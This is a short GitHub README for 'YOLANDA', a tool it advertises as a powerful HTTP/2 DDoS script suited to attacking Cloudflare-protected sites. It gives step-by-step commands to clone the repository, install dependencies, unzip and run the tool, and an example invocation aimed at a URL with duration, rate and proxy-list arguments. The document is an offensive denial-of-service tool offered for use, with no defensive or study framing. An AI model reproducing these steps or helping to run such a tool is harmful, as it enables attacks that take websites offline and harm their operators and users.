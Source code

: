 # YOLANDA
Powerful http2 DDoS Script, with mix method! great for cloudflare


# Install
```
git clone https://github.com/MsYor/YOLANDA; cd YOLANDA

pip3 install httpx

unzip YOLANDA.zip

python3 http_proxy.py

chmod +x YOLANDA

./YOLANDA
```
# Example:
./YOLANDA https://tls.mrrage.xyz 60 1 proxy.txt



